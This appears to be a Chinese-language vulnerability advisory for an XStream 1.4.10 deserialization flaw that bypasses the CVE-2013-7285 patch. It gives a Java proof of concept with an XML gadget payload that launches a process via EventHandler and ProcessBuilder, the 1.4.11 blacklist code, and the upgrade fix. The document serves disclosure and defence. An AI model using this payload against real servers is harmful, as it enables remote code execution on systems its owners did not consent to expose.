



## 前言  

XStream是常用的Java类库，用来将对象序列化成XML （JSON）或反序列化为对象。

## 漏洞简介  

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

## 漏洞危害  

当使用Xstream 1.4.10版本且未对安全框架进行初始化时，攻击者即可通过精心构造的请求包在使用Xstream的服务器上进行远程代码执行。

## 影响范围  

### 产品

> Xstream

### 版本

> Xstream1.4.10版本

### 组件

> Xstream

## 漏洞复现

### PoC

```java
package com.bigo;

import com.thoughtworks.xstream.XStream;

import java.beans.EventHandler;
import java.io.IOException;
import java.util.Set;
import java.util.TreeSet;

/**
 * Created by cfchi on 2019/7/26.
 */
public class Main {
    public static String expGen(){
        XStream xstream = new XStream();
        Set<Comparable> set = new TreeSet<Comparable>();
        set.add("foo");
        set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
        String payload = xstream.toXML(set);
        System.out.println(payload);
        return payload;
    }
    public static void main(String[] args) throws IOException {
        expGen();
        XStream xStream = new XStream();
        String payload = "<sorted-set>\n" +
                "    <string>foo</string>\n" +
                "    <dynamic-proxy>\n" +
                "    <interface>java.lang.Comparable</interface>\n" +
                "        <handler class=\"java.beans.EventHandler\">\n" +
                "            <target class=\"java.lang.ProcessBuilder\">\n" +
                "                <command>\n" +
                "                    <string>cmd.exe</string>\n" +
                "                    <string>/c</string>\n" +
                "                    <string>calc</string>\n" +
                "                </command>\n" +
                "            </target>\n" +
                "     <action>start</action>"+
                "        </handler>\n" +
                "    </dynamic-proxy>\n" +
                "</sorted-set>\n";
       xStream.fromXML(payload);
    }
}

```

### 1.4.7版本白名单



### 1.4.10版本，黑名单未开启



### 1.4.11版本，黑名单开启

> blacklist

```java
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
        return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
        throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
        throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```



## 修复方案
> 升级Xstream到1.4.11版本

## 参考
https://mp.weixin.qq.com/s/bght8tIwtNqnaidVZjPdSw  
http://x-stream.github.io/changes.html#1.4.11
> 原文：http://www.polaris-lab.com/index.php/archives/658/
